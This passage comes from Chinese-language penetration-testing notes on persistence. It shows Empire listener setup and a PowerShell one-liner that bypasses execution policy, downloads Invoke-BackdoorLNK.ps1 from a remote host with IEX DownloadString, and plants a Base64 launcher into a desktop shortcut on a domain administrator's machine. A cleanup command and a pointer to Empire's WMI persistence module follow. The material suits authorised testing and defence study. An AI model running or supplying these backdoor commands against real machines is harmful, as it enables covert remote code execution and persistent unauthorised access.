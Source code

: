  #### LNK后门
	Empire
	Empire> set Host http://192.168.1.150
	Empire> set Port 8080
	>launcher powershell Listener's Name
	生成后只使用Base64的代码。
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-BackdoorLNK.ps1');Invoke-BackdoorLNK -LNKPath 'C:\Users\Administrator.DC\Desktop\Easy CHM.lnk' -EncScript Base64编码"
![image](/assets/Pentest_Note/master/img/539.png)
![image](/assets/Pentest_Note/master/img/540.png)
![image](/assets/Pentest_Note/master/img/541.png)
![image](/assets/Pentest_Note/master/img/542.png)

	清除后门
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-BackdoorLNK.ps1');Invoke-BackdoorLNK -LNKPath 'C:\Users\Administrator.DC\Desktop\Easy CHM.lnk' -CleanUp"
![image](/assets/Pentest_Note/master/img/543.png)
 #### WMI
	Empire>powershell/persistence/elevated/wmi